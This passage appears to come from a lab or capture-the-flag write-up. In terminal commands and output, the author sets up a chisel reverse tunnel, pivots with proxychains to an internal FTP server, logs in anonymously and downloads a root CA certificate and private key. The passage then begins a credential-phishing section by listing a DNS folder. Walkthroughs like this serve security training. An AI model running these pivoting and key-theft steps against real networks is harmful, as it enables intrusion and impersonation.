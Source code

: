```bash
└─$ ./chisel server --reverse --port 9000
2025/06/16 11:01:31 server: Reverse tunnelling enabled
2025/06/16 11:01:31 server: Fingerprint QNqEO+PxnLm10L77HmbaNmC5Qo0mx9RlOE1nscRDjts=
2025/06/16 11:01:31 server: Listening on http://0.0.0.0:9000
2025/06/16 11:06:02 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```

Finish setting up tunnel. Now use `proxychains` to enumerate the ftp service.

```bash
└─$ proxychains ftp 172.19.0.3
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.19.0.3:21  ...  OK
Connected to 172.19.0.3.
220 (vsFTPd 3.0.3)
Name (172.19.0.3:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||21110|)
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.19.0.3:21110  ...  OK
150 Here comes the directory listing.
drwxrwxrwx    2 ftp      ftp          4096 Oct 31  2024 pub
ftp> cd pub
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||21103|)
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.19.0.3:21103  ...  OK
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp          1826 Oct 31  2024 RootCA.crt
-rw-r--r--    1 ftp      ftp          3434 Oct 31  2024 RootCA.key
ftp> mget RootCA.*
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.19.0.3:21101  ...  OK
```

Got these files and get them back to our machine.

## Phising Credentials
### DNS Service
Also found something interesting `/dns` folder.
```bash
user@7bfb70ee5b9c:/dns$ ls -la
total 24
drwxr-xr-x 1 user user 4096 Apr 28 12:07 .
drwxr-xr-x 1 root root 4096 Apr 28 12:07 ..
-rwxr-xr-x 1 root root  364 Aug 31  2024 convert.sh
-rwxr--r-- 1 user user  598 Jun 16 03:42 entries
-rw-r--r-- 1 root root  598 Jun 15 03:16 hosts
```
